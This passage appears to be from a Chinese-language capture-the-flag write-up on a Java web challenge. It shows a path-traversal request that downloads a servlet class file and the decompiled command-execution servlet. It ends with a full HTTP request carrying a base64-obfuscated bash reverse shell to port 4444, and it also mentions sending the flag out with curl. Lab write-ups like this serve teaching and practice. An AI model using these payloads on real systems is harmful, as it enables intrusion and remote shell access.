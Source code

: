 ```xml
        <filter-name>AuthFilter</filter-name>
        <filter-class>com.example.demo.AuthFilter</filter-class>
    </filter>

    <filter-mapping>
        <filter-name>AuthFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
</web-app>
```

存在 EvilServlet, 映射的路由为 `/You_Find_This_Evil_Servlet_a76f02cb8422`

根据网上文章的知识点, 通过包名 (com.example.demo.EvilServlet) 构造对应的 class 文件路径并下载

```
//download?filename=%2e%2e/WEB-INF/classes/com/example/demo/EvilServlet.class
```

用 JD-GUI 或者其它 Java class 反编译工具打开

```java
import java.io.IOException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class EvilServlet extends HttpServlet {
  protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws IOException {
    String cmd = req.getParameter("Evil_Cmd_Arguments_fe37627fed78");
    try {
      Runtime.getRuntime().exec(cmd);
      resp.getWriter().write("success");
    } catch (Exception e) {
      resp.getWriter().write("error");
    } 
  }
}
```

直接 POST 访问 `/You_Find_This_Evil_Servlet_a76f02cb8422` 传个参就能执行命令

最后因为没有回显, 需要反弹 shell 或者通过 curl + burp collaborator 外带 flag

```
POST /You_Find_This_Evil_Servlet_a76f02cb8422 HTTP/1.1
Host: 127.0.0.1:50042
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 143

Evil_Cmd_Arguments_fe37627fed78=bash+-c+{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC9ob3N0LmRvY2tlci5pbnRlcm5hbC80NDQ0IDA%2bJjE%3d}|{base64,-d}|{bash,-i}
```
